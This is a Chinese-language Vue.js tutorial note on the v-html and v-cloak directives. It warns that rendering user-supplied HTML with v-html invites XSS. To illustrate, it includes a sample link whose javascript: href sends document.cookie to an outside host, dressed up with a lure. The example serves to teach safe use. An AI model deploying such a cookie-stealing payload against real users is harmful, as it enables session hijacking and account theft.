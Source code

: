 **v-html指令：**(使用的很少)

1.作用：向指定节点中渲染包含html结构的内容。

2.与插值语法的区别：

* v-html会替换掉节点中所有的内容，{{xx}}则不会。
* v-html可以识别html结构。

3.严重注意：v-html有安全性问题！！！！

* 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
* 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```js
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

**v-cloak指令（没有值）：**

* 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
* 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
    [v-cloak]{
        display:none;
    }
</style>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```
